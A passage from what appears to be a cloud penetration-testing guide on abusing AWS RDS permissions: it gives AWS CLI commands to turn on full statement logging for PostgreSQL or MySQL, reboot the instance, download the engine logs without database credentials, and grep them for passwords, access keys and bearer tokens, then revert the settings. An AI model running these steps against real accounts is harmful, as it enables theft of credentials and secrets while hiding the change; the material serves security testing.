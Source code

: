 - PostgreSQL engines (reboot required):
```bash
aws rds modify-db-parameter-group \
  --db-parameter-group-name <PGNAME> \
  --parameters \
  "ParameterName=log_statement,ParameterValue=all,ApplyMethod=pending-reboot"
# Optional to log duration for every statement:
#   "ParameterName=log_min_duration_statement,ParameterValue=0,ApplyMethod=pending-reboot"

# Reboot if any parameter is pending-reboot
aws rds reboot-db-instance --db-instance-identifier <DB>
```

4) Let the workload run (or generate queries). Statements will be written to engine file logs
- MySQL: `general/mysql-general.log`
- PostgreSQL: `postgresql.log`

5) Discover and download logs (no DB creds required)
```bash
aws rds describe-db-log-files --db-instance-identifier <DB>

# Pull full file via portions (iterate until AdditionalDataPending=false). For small logs a single call is enough:
aws rds download-db-log-file-portion \
  --db-instance-identifier <DB> \
  --log-file-name general/mysql-general.log \
  --starting-token 0 \
  --output text > dump.log
```

6) Analyze offline for sensitive data
```bash
grep -Ei "password=|aws_access_key_id|secret|authorization:|bearer" dump.log | sed 's/\(aws_access_key_id=\)[A-Z0-9]*/\1AKIA.../; s/\(secret=\).*/\1REDACTED/; s/\(Bearer \).*/\1REDACTED/' | head
```

Example evidence (redacted):
```text
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('user=alice password=Sup3rS3cret!')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('authorization: Bearer REDACTED')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('aws_access_key_id=AKIA... secret=REDACTED')
```

Cleanup
- Revert parameters to defaults and reboot if required:
```bash
# MySQL
aws rds modify-db-parameter-group \
  --db-parameter-group-name <PGNAME> \
  --parameters \
  "ParameterName=general_log,ParameterValue=0,ApplyMethod=immediate"

# PostgreSQL
aws rds modify-db-parameter-group \
  --db-parameter-group-name <PGNAME> \
  --parameters \
  "ParameterName=log_statement,ParameterValue=none,ApplyMethod=pending-reboot"
# Reboot if pending-reboot
```
